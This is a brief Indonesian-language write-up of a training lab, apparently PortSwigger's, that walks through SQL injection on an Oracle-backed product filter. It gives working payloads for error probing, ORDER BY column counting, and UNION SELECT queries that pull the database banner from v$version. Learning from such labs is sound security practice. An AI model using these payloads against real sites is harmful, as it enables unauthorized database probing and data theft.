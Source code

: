 ##  Write-up: SQL injection attack, querying the database type and version on Oracle

### Langkah-langkah:

1. **Buka lab** → intercept request pakai **Burp**.
   Contoh request:

   ```
   GET /filter?category=Corporate HTTP/2
   ```
   <img width="927" height="67" alt="image" src="https://github.com/user-attachments/assets/6136623d-bb73-427f-af5d-8cfdedddbe9f" />


2. **Uji injection** dengan menambahkan tanda `'`:

   ```
   /filter?category=Corporate'

```
   <img width="267" height="82" alt="image" src="https://github.com/user-attachments/assets/4ce723b1-acda-456b-a71e-c6e92a1961b8" />

   → Hasilnya muncul **500 Internal Server Error**, artinya vulnerable.

3. **Cari jumlah kolom** dengan `ORDER BY`:

   ```
   /filter?category=Corporate' ORDER BY 1--
   /filter?category=Corporate' ORDER BY 2--
   ```

   → Saat `ORDER BY 2` berhasil, tapi `ORDER BY 3` error → jumlah kolom = **2**.

4. **Uji UNION SELECT** untuk lihat output di halaman:

   ```
   /filter?category=Corporate' UNION SELECT 'aaa','bbb' FROM dual--
   ```

   → Teks `aaa` atau `bbb` muncul di halaman → injection berhasil.

5. **Ambil versi database Oracle**:

   ```
   /filter?category=Corporate' UNION SELECT banner,null FROM v$version--
   ```

   → Halaman menampilkan:

   ```
   Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production ...
   ```

   → Sesuai hint lab.

 **Lab Solved**
